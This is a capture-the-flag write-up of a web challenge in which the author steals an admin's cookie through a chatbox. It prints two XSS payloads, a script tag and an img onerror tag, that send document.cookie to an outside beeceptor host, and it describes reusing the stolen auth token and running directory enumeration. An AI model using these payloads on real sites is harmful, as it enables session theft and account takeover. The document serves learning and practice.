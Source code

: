 This challenge is clearly another xss challenge as its in the webpage link we get.<br />
We see a page with a moving image and a chatbox with an admin.

I tried the same xss as in the Government Agriculture Network challenge:
<script>location.href="https://paulovh.free.beeceptor.com?"+ document.cookie</script>

This returns:<br />
HACKER ALERT!

So there is some checking for xss going on.
This can get very tricky as i found out last year however the first thing I checked already worked out:
Using an img tag with an onerror that executes javascript is another very common way to inject javascript and this does work:
<img src=X onerror='location.href="https://paulovh.free.beeceptor.com?"+ document.cookie'/>

This gived me the flag on the beeceptor mock api page!

When trying to go to /admin of the page you get redirected back to the same page at first.<br />
I tried this /admin page as it is a common page on many sites but for a more reliable way of getting these kind of pages you can use:<br />
dirb https://cwo-xss.web.ctfcompetition.com<br />
the dirb program will go trough a wordlist of common website paths and test them all and return you which ones worked.

But the xss also gives you an auth token from the admin.
Adding this in my firefox storage (explained in my Government Agriculture Network write-up) and going again to the /admin page I now get a new page with 3 options:
- Users
- Livestreams
- Camera Controls

The first 2 do nothing the last one gives the message:<br />
Requests only accepted from 127.0.0.1

Here I got stuck. I did not know for sure there was a flag to find here but it did seem like there was something here.

I eventualy needed to read a write-up to find this flag :( There is some magic happening with parameters in the url that make the page think you are comming from 127.0.0.1<br />
I dont know how I should have found this. I will be looking for write-ups that give a better explanation than the first I found and add a better explanation here if I do.

This part I abandoned after I had failed myself in the crypto challenge. Maybe more googleing would make it clear even without finding other write-ups but at this point I had had enough for now.

